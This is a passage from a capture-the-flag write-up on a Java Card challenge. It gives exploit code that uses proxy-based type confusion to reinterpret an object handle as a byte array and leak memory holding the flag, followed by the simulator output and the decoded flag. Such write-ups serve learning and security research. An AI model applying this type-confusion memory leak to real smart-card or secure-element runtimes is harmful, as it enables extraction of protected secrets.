 Instead of returning `void` and `short`, we convert an `Object` parameter to a `short`, thereby obtaining the handle of the `Object`.

The exploit code itself is now quite short:
```java
// Perform the PhiAttack
PhiProxy proxyInstance = new PhiProxy();
Phi phiInstance = proxyInstance;

// Type confusion: Convert our object to its short handle
short meMySelfAndIHandle = phiInstance.toShort(meMySelfAndI);

// Convert the handle back, but this time to a byte array
// and not the Object it actually represents
longarr = phiInstance.fromShort(meMySelfAndIHandle);

// read from the array, leaking the flag
byte[] buffer = apdu.getBuffer();
Util.arrayCopyNonAtomic(
    longarr,
    // read start index. Skip far enough ahead to reach the flag
    (short) 0x2b5,
    buffer,
    (short) 0,
    // bytes to read. Read enough. 0x85 seems to be max buffer length
    (short) 0x85
);
apdu.setOutgoingAndSend((short) 0, (short) 0x85);
```

## Flag

```
[ INFO: ] Verification completed with 0 warnings and 0 errors.
All verification finished
Mask has now been initialized for use
OUTPUT OFF;
OUTPUT ON;
CLA: 88, INS: 66, P1: 00, P2: 00, Lc: 00, Le: 85, 30, 72, 77, 63, 74, 66, 7b, 48, 34, 70, 70, 79, 43, 61, 33, 64, 37, 30, 36, 32, 32, 39, 39, 31, 62, 39, 37, 32, 33, 38, 39, 61, 31, 66, 30, 35, 37, 35, 65, 64, 37, 64, 32, 30, 34, 38, 38, 66, 7d, 80, 68, 01, 01, 80, 73, 01, 01, 00, 80, 00, 00, ff, 00, 01, 03, 00, 00, 86, d1, 86, d2, 86, d3, 80, 00, 00, 00, 00, 1c, 00, 06, aa, bb, cc, dd, ee, 10, 20, 00, 00, 00, 11, 05, 00, c6, 20, 00, 11, 00, 00, 1d, 00, 94, 00, c3, 01, 00, 80, 00, 10, 00, 00, 1c, 00, 04, 73, 61, 66, 65, 80, 00, 10, 00, 00, 1c, 00, 0c, 63, 6f, 6d, 2e, 72, 77, SW1: 90, SW2: 00
C-JCRE was powered down.
bye%  
```
Which, after conversion from hex, turns into this magnificent string:
```
0rwctf{H4ppyCa3d70622991b972389a1f0575ed7d20488f}.h...s......ÿ......Ñ.Ò.Ó........ª»ÌÝî. ......Æ ........Ã..........safe........com.rw
```
🍉

